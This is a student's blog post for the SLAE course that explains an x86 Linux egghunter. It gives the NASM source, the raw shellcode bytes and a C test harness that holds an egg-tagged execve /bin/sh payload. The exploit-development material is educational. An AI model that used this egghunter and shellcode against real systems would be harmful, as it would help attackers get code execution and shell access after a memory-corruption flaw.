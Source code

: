 ```yaml
---
comments: true
date: 2014-04-09
layout: post
title: 'SLAE Assignment 3: EggHunter Demo'
summary: '3rd assignment of the SLAE'
tags: [asm-x86,nasm,slae]
---
```


This is the third of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

  1. Study about EggHunter
	
  2. Make a working demo
	
  3. Make it configurable for different payload

An EggHunter is a small piece of code that search to a pattern (the egg) into the memory and once the pattern is found the shellcode will be executed. Tipically the egg is wrote twice, this to avoid the problem of finding an identical sequence in some other part of the memory.

The following is a PoC of an EggHunter:
   
	unsigned char egghunter[] = "egghunter shellcode"
	unsigned char shellcode[] = \
	"egg"
	"egg"
	"execve /bin/sh shellcode"

	int main(void){
		run(egghunter);
		return 0;
	}

This is the complete shellcode:

	;Description:	Assignment #3 (EggHunter, 34 bytes)
	;Shellcode:		\xd9\xee\x9b\xd9\x74\x24\xf4\x58\x40\x31\xdb\xb1\x02\x81\x3c\x18\xaa\xbb\xcc\xdd\x75\xf2\x83\xc3\x04\xfe\xc9\x75\xf0\x8d\x40\x08\xff\xe0
	;Author: 		Paolo Stivanin <https://github.com/paolostivanin>
	;SLAE ID:		526

	global _start
	section .text
	_start:
		fldz
		fstenv [esp-0xc]
		pop eax
		lp1:
		inc eax
		xor ebx,ebx
		mov cl,2
		lp2:
		cmp dword [eax+ebx],0xddccbbaa
		jne lp1
		add ebx,4	;the egg must be found twice so i check eax and eax+4
		dec cl		;this is a counter to track how many times the egg has been found
		jnz lp2
		lea eax,[eax+8]	;if the egg has been found then jmp into the shellcode
		jmp eax

In this shellcode I didn't use the jmp-call-pop technique (which is more ids friendly) but instead I used two FPU instructions:

  * `fldz` to push +0.0 onto the FPU register stack
	
  * `fstenv [esp-0xc]` to save the current FPU operating environment at the specified memory location
	
  * and then `pop eax` . Now `eax` contains the address offldz

The following is the graph of the egghunter shellcode flow:

[![graph_assign3]({{ site.baseurl }}/images/2014/04/graph_assign3-1024x601.png)]({{ site.baseurl }}/images/2014/04/graph_assign3.png)

This is the C source file:

	/* Description:	EggHunter(execve(/bin/sh))
	* Author:	Paolo Stivanin <https://github.com/paolostivanin>
	* SLAE ID:	526
	*/

	#include <stdio.h>
	#include <string.h>

	unsigned char eggHunter[] = \
	"\xd9\xee\x9b\xd9\x74\x24\xf4\x58\x40\x31\xdb\xb1\x02\x81\x3c\x18\xaa\xbb\xcc\xdd\x75\xf2\x83\xc3\x04\xfe\xc9\x75\xf0\x8d\x40\x08\xff\xe0";

	unsigned char execveShellcode[] = \
	"\xaa\xbb\xcc\xdd" //egg
	"\xaa\xbb\xcc\xdd" //egg
	"\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";

	int main(void){
		printf("EggHunter: %zu\n", strlen(eggHunter));
		printf("Shellcode: %zu\n", strlen(execveShellcode));
		int (*ret)() = (int(*)())eggHunter;
		ret();
		return 0;
	}

and the following is the result of the above snippet:

[![assign3]({{ site.baseurl }}/images/2014/04/assign3-1024x552.png)]({{ site.baseurl }}/images/2014/04/assign3.png)

All the sources can be found in my [Github page](https://github.com/paolostivanin/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)


**Student ID: SLAE-526**
